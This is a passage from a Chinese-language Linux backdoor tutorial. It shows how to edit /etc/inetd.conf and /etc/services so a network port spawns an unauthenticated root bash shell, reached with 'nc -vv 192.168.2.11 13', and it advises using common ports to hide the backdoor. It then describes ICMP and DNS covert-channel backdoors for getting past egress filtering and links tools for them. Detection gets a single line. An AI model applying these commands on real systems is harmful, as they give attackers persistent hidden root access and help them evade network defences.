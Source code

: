 ```
#修改/etc/inetd.conf
$vim /etc/inetd.conf

#discard stream tcp nowait root internal 
#discard dgram udp wait root internal 
daytime stream tcp nowait root /bin/bash bash -i

#开启inetd
$inetd

#nc连接
nc -vv 192.168.2.11 13


```

```
#可以配合suid后门，修改/etc/services文件：
suidshell 6666/tcp
#然后修改/etc/inetd.conf
suidshell stream tcp nowait root /bin/bash bash -i
#可以修改成一些常见的端口，以实现隐藏


```

检测：查看配置文件即可

```
cat /etc/inetd.conf 


```

### 0x09 协议后门

在一些访问控制做的比较严格的环境中，由内到外的 TCP 流量会被阻断掉。但是对于 UDP(DNS、ICMP) 相关流量通常不会拦截。

#### ICMP

主要原理就是利用 ICMP 中可控的 data 字段进行数据传输，具体原理请参考: [https://zhuanlan.zhihu.com/p/41154036](https://zhuanlan.zhihu.com/p/41154036)



开源工具：ICMP 后门项目地址：[https://github.com/andreafabrizi/prism](https://github.com/andreafabrizi/prism)

#### DNS

在大多数的网络里环境中 IPS/IDS 或者硬件防火墙都不会监控和过滤 DNS 流量。主要原理就是将后门载荷隐藏在拥有 PTR 记录和 A 记录的 DNS 域中（也可以利用 AAAA 记录和 IPv6 地址传输后门），具体请参考：[通过 DNS 传输后门来绕过杀软](https://www.anquanke.com/post/id/85431)



开源工具：DNS 后门项目地址：[https://github.com/DamonMohammadbagher/NativePayload\_DNS](https://github.com/DamonMohammadbagher/NativePayload_DNS)
